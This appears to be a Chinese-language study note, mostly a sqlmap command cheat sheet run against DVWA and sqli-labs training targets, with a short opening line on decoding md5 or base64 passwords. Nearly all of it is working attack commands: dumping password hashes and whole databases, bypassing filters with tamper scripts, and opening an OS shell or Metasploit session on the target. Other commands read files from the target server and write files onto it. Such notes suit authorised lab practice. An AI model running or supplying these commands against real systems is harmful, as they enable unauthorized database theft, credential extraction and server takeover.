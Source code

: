 6、查看密码是是什么加密方式，若是 `md5` 加密则使用 `md5` 解密，若是 `base64` 加密，则使用`base64` 解密

### 

### `SqlMap`工具使用

使用注意：`一定要添加--cookie的值 保存登录状态  还有URL要从浏览器按F12复制！！！`

每一句添加`--cookie`

使用方法

```mysql
sqlmap -u "http://192.168.128.5:90/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; UM_distinctid=180264fffd352a-0097c3bae55b8-1a343370-144000-180264fffd44de; CNZZDATA2585739=cnzz_eid%3D836105397-1649905912-%26ntime%3D1649905912; security_level=0; PHPSESSID=8k506bustg79i6chh1faa0v1s6" -D dvwa --batch  --tables
```

常用指令：

```html
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt
```